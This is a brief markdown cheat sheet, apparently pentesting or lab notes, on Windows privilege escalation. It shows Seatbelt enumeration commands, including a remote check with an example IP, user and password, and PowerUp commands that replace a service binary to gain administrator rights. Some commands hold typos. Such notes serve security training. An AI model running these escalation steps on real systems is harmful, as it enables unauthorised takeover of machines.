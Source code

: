 # Privilege Escalation
## Seatbelt
### Simple Checks
#### AV Checks
```powershell
seatbelt.exe -q AntiVirus
```
#### Installed Products
```powershell
seatbelt.exe -q InstalledProducts
```
#### TCP Connections
```powershell
seatbelt.exe -q TcpConnections
```
#### System Group Checks
```powershell
seatbelt.exe -q group=system
```
#### Remote System Checks
```powershell
seatbelt.exe =q AppLocker computername=10.10.10.15 -user=hitbox\bgreen -password=Password1
```

## PowerUP
### Import Module
```powershell
Import-Module .\PowerUp.ps1
```
### Run All Checks 
```powershell
Invoke-AllChecks
```
### Exploit the Vulnerability
```powershell
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\Video Stream\1337.exe"
```
#### Verify the Exploit worked
```powershell
net localgroup administrator
```